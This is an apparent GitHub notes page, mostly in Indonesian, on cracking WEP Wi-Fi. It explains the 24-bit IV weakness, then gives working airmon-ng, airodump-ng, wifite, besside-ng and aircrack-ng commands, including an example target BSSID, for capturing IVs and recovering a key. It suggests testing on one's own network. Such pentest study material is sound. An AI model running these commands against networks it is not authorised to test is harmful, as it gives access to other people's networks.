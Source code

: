 # WEP Hacking

Key: 
- Packet injection
- 24 - bit IV

## Karakteristik
WEP menggunakan RC4 stream cipher dengan kunci sebanyak 64-bit atau 128-bit.

## Vulnerability
WEP menggunakan 24-bit IV yang menyebabkan penggunaan IV berulang digabungkan dengan kunci yang sama. Hal ini menyebabkan WEP mudah dijebol. Packet injection juga menyebabkan WEP makin cepat dipecahkan.

Attacker bisa memaksa agar kunci yang sama dan IV yang sama digunakan untuk yang kedua kali dengan melakukan replay network traffic dengan jumlah yang sangat banyak.


## Eksploitasi
Untuk tes eksploitasi, gunakan wifi sendiri dengan setting bit kunci berjumlah kecil `40/64 bit`. Tujuannya untuk mempercepat proses dari WEP hacking itu sendiri. Inisiasi serangannya adalah:
```sh
# masuk ke monitoring mode
airmon-ng start wlan0

# Melihat WEP yang ada di sekitar
sudo airodump-ng wlan0mon --encrypt WEP

# apabila terdapat kendala proses
airmon-ng check kill
```

Menggunakan **wifite** untuk cracking WEP dan menggunakan random MAC address. Tools ini dapat melakukan otomasi serangan airodump, aireplay, dan aircrack.
```sh
wifite --wep --mac
```


```sh
airmon-ng check


# will create something.cap file
besside-ng -c _ChannelTargetIsOn_ -b _BSSIDofTargetNetwork_ _NameOfInterfaceCard_
besside-ng -b 7C:CA:ED:A4:9B:EE -c 11 wlan0mon






# Collect the IVs (Initialization Vectors) from the something.cap file
aircrack-ng ./wep.cap


```

The attack will be repeated every 5.000 IVs until it succeeds

Unless you are trying to catch local script kiddies in the act, there is no reason to use WEP encryption for anything

## Sumber
- https://null-byte.wonderhowto.com/how-to/hack-wi-fi-hunting-down-cracking-wep-networks-0183712/
- https://en.wikipedia.org/wiki/Initialization_vector
- https://teckk2.github.io/wifi%20pentesting/2018/07/20/Hacking-WEP.html